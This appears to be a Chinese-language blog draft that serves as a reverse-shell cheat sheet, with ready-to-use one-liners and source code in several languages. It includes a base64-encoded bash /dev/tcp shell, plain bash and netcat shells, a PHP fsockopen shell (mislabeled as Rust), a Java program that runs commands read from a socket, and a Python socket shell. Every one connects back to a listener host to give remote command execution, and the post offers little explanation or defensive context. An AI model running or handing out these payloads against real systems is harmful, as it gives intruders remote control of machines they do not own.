
+++
title = '反弹shell的各种编码各种语言'
date = '2023-12-07T16:08:29+08:00'
draft = true
+++
# 反弹shell的各种编码各种语言

base64编码后的linux下/bin/bash反弹shell:
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDYuMTMuMC4yNDMvMTIzNDUgMD4mMQ=}|{base64,-d}|{bash,-i}'
linux的/bin/bash版本反弹shell：
bash -i >& /dev/tcp/192.168.45.217/1234 0>&1

bash -c "bash -i >& /dev/tcp/192.168.45.226/443 0>&1"

nc -e /bin/bash 192.168.45.5 1234

nc 192.168.45.5 1234|/bin/bash|192.168.45.5 12345

```rust
php -r '$sock=fsockopen("192.168.45.5",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

java反弹shell源码:
public class Revs {
    /**

    * @param args
        * @throws Exception 
        */
public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
        }
}
javac将.java为jar执行
python互动式终端：

python -c 'import pty; pty.spawn ("/bin/bash")'

python3 -c 'import pty; pty.spawn ("/bin/bash")'

python反弹shell

python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
